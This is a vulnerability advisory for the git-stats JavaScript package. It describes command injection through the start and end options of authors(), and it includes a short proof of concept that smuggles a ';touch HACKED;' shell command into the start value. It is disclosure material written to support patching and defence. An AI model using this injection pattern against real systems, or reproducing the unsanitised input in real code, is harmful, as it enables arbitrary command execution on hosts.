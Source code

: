 # Overview
git-stats is a js package for local git statistics including GitHub-like contributions calendars.

Affected versions of this package are vulnerable to Command Injection. It is possible to inject arbitrary commands by using a semicolon char in any of the `options.start` or `options.end` values, using the authors() function.

# Proof of Concept
```js
var GitStats = require("git-stats");
var g1 = new GitStats();

g1.authors({
    start: ' " ;touch HACKED; #//',
    end: 'endstring'
}, (resp, pieData) => {
    console.log("Done!");
});
```
